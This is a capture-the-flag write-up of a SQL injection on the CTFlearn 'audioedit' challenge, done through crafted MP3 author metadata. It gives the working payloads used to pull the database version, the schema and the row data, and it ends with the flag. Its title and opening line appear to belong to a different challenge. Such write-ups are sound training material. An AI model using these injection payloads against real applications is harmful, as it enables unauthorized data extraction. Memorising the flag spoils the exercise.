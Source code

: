 ## Rock Paper Scissors
The main idea of finding the flag is recognizing a pattern to pwn.

#### Step-1:
After I visited http://web.ctflearn.com/audioedit/, I got this.

<img src="Web1.png">

#### Step-2:
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.

We figured the insertion statement looked something like this:

```sql
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);
```

In order to do an SQL-injection we have to create a special author and title field. I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data. In order to inject and maintain a valid INSERTION statement you can create a `mp3` with the following meta data:

```sql
title  = "" (leer)
author = a', (SELECT @@version))-- -b
```

which creates the following statement

```sql
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);
```

The `a` in the beginning and the `b` in the end were necessary because the first and last character were truncated.

This gave us the database version: `5.5.49-0ubuntu0.14.04.1`

#### Step-3:
Next we wanted to know the database name:

```sql
author = a', (SELECT database()))-- -b:
audioedit
```

And of course the column names:

```sql
author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
with x in range(0,3):
id
file
author
title
```

So finally we wanted see whats in there:

```sql
author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
```

... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time. Thanks to SQLs.

```sql
author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
ABCTF
author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
flag
author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
supersecretflagf1le.mp3
```

#### Step-4:
Finally the exploited URL: https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3

<img src="Flag1.png">

<img src="Flag2.png">

#### Step-3:
Finally, the flag becomes: 
`ABCTF{m3t4_inj3cti00n}`
